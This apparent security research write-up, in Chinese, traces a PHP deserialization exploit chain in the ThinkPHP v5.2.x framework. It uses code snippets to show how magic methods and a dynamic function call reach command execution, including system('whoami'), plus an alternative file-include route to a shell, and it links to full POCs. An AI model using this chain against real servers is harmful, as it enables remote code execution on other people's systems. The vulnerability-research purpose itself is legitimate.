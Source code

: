 ﻿## 测试版本
php v7.2.10
thinkphp v5.2.x
## 思路
前面的利用链借鉴的是v5.1.37中的思路，可以参考文章[thinkphpv5.1.37反序列化利用链挖掘](https://github.com/Dido1960/thinkphp/tree/master/v5.1.37)
```
// 路径
\vendor\topthink\framework\src\think\process\pipes\Windows.php

// 析构方法入手
__destruct() --> removeFiles() --> files_exists($filename)
 
// 可控参数
new windows()->filename
 
 ```


file_exists()函数将参数当作字符串处理，可以触发类的__toString()魔术方法

```
//路径
\vendor\topthink\framework\src\think\model\concern\Conversion.php

// 寻找__toString()的调用链
__toString() --> toJson()--> toArray()
 
//寻找  $可控变量->方法(参数可控) 的点（失败）
$relation->visible($name);
 
// 注意，寻找存在__call()方法且未实现visible()函数的类无果，另辟蹊径，到这之前的利用链与v5.1.37相同
 
```

利用点：think/model/concern/Attribute.php中getValue可函数动态调用函数`$closure($value, $this->data)`，`$closure,$value`参数均可控
```
//路径
\vendor\topthink\framework\src\think\model\concern\Conversion.php

接着上面的链
toArray() --> getAttr($key) --> getValue($name, $value, $relation) --> $closure($value, $this->data)

$closure = $this->withAttr[$fieldName] 
$value = $this->data[$fieldName]

$fieldName = getRealFieldName($name)
$name为$this->data中的键，所以要保证$this->withAttr的键与$this->data中的键一致

 
//可控参数
$this->withAttr
$this->data
 ```

这里`$closure($value, $this->data)`有两个方式进行利用
* 可以利用序列化的匿名函数的姿势进行利用
 ```
$func = function(){phpinfo();};
$closure = new \Opis\Closure\SerializableClosure($func);
$closure($value, $this->data);// 这里的参数可以不用管
 
//注意，这里需要引入\Opis\Closure这个第三方库，具体查看官方文档
https://docs.opis.io/closure/3.x/serialize.html
```

* 动态调用函数执行系统命令

```
//动态执行函数system回显
$closure = 'system';
$value = 'whoami';
$data = array("huha"=>"whoami");
$closure($value,$data);
```

最终的反序列利用链
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019092801111542.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)

在默认模块中构造利用点
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190925143232558.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)
## POC
#### 利用匿名函数
构造POC的时候注意在web根目录下引入第三方\Opis\Closure函数库vendor，才能序列化闭包对象，否则会报错

```
//导入
require __DIR__ . '/vendor/autoload.php';
```
https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc

#### 利用动态函数执行
这种方法没有引入外部类的限制，比较实用

https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc3

## 思路二
前面说__call()方法在\think\Request类中找不到了，可以寻找代替Request的其他类，找到了\think\Db.php中的__call方法
 

```
public function __call($method, $args)
{
    $class = $this->config['query'];
 
    $query = new $class($this->connection);
 
    return call_user_func_array([$query, $method], $args);
}
```

 

 
因为在构造类的时候变量均可控，所以在这里可以调用类的方法，think\Url中存在文件包含
 
 

```
public function __construct(App $app, array $config = [])
{
    $this->app    = $app;
    $this->config = $config;
 
    if (is_file($app->getRuntimePath() . 'route.php')) {
        // 读取路由映射文件
        $app->route->import(include $app->getRuntimePath() . 'route.php');
    }
}
```

如果服务器可上传文件，在知道路径的情况下就可以getshell
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190929013447152.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)
本地测试，在D盘目录添加route.php文件

```
<?php
system('ls');
?>
```
## POC2
https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc2

## 参考文章
[thinkphp v5.2.x 反序列化利用链挖掘](https://www.anquanke.com/post/id/187332)

